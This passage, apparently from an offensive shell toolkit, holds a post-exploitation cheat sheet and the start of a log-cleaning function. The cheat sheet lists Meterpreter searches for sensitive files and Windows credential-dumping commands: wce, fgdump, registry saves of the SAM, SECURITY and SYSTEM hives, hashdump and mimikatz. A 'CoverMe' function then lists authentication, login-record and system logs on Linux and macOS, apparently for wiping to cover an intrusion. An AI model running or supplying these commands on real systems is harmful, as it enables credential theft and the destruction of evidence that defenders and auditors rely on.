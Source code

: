   - Interesting files
    - Meterpreter
      - search -f *.txt
      - search -f *.zip
      - search -f *.doc
      - search -f *.xls
      - search -f config*
      - search -f *.rar
      - search -f *.docx
      - search -f *.sql
    - How to cat files in meterpreter
      - cat c:\\Inetpub\\iissamples\\sdk\\asp\\components\\adrot.txt
    - Recursive search
      - dir /s

    - Passwords and hashes
      - wce32.exe -w
      - wce64.exe -w
      - fgdump.exe
      - reg.exe save hklm\sam c:\sam_backup
      - reg.exe save hklm\security c:\security_backup
      - reg.exe save hklm\system c:\system
      - Meterpreter
        - hashdump
        - load mimikatz
        - msv

  - Browser
    - Browser start-page:
    - Browser-history:
    - Saved passwords:

  "

}


###############################################
# Cover Me Cleaning Logs and more.
CoverMe(){

  LOGS_FILES=(
  ~/.zsh_sessions/*
  /var/log/messages # General message and system related stuff
  /var/log/auth.log # Authenication logs
  /var/log/kern.log # Kernel logs
  /var/log/cron.log # Crond logs
  /var/log/maillog # Mail server logs
  /var/log/boot.log # System boot log
  /var/log/mysqld.log # MySQL database server log file
  /var/log/qmail # Qmail log directory
  /var/log/httpd # Apache access and error logs directory
  /var/log/lighttpd # Lighttpd access and error logs directory
  /var/log/secure # Authentication log
  /var/log/utmp # Login records file
  /var/log/wtmp # Login records file
  /var/log/yum.log # Yum command log file
  /var/log/system.log # System Log
  /var/log/DiagnosticMessages # Mac Analytics Data
  /Library/Logs # System Application Logs
  /Library/Logs/DiagnosticReports # System Reports
  ~/Library/Logs # User Application Logs
  ~/Library/Logs/DiagnosticReports # User Reports
  )
